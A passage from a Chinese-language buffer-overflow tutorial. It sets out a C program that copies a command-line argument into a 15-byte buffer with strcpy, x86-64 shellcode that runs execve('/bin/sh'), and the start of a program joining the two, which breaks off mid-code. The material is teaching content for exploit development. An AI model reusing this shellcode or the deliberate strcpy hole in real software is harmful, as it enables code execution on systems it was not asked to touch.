 ![](img/00242.jpeg)

是的，我们改变了执行流程，执行了本不应该执行的东西！

让我们再试一个有趣的有效载荷。我们将使用我们的代码：

```
int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

void main (int argc, char *argv[])
 {
     int local_variable = 1;
     copytobuffer(argv[1]);
     exit(0);
 }
```

但我们将在这里添加我们的`execve`系统调用来从上一章运行`/bin/sh`：

```
unsigned char code[] =
 "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
 {
     printf("Shellcode Length: %d\n", (int)strlen(code));
     int (*ret)() = (int(*)())code;
     ret();
 }
```

让我们把它们放在一起：

```
 #include <stdio.h>
 #include <string.h>
 #include <stdlib.h>

 void shell_pwn()
 {
    char code[] =
     "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73
     \x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
 }
 int copytobuffer(char* input)
 {
     char buffer[15];
     strcpy (buffer,input);
     return 0;
 }

 void main (int argc, char *argv[])
 {
```